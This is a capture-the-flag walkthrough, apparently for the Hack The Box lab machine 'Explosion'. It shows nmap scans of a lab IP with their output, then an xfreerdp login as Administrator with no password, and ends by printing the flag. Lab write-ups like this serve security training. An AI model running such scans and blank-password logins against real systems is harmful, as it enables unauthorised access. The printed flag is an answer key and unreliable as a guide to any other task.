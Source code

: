 ![Meow.png](/assets/Tier-0/Meow/meow.jpg)

1. Send an ICMP echo request to machine's IP address.
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 1 10.129.88.32
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.88.32
```

**Output**
```bash
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
```

3. Search versions and scripts to scanning ports
```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─| nmap -sCV -p135,139,445,3389,5985,47001 10.129.88.32 
```

**Output**
```bash
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-18T15:18:22+00:00
|_ssl-date: 2022-11-18T15:18:29+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-11-17T15:15:14
|_Not valid after:  2023-05-19T15:15:14
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


4. In port **3389** rdp service is runningm you can connect how `Administrator` without **password**

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─| xfreerdp /u:Administrator /v:10.129.88.32
```

**Output**

![rdp.PNG](/assets/Tier-0/Explosion/rdp.PNG)

5. Open **flag file**

```txt
Flag: 951fa96d7830c451b536be5a6be008a0
```
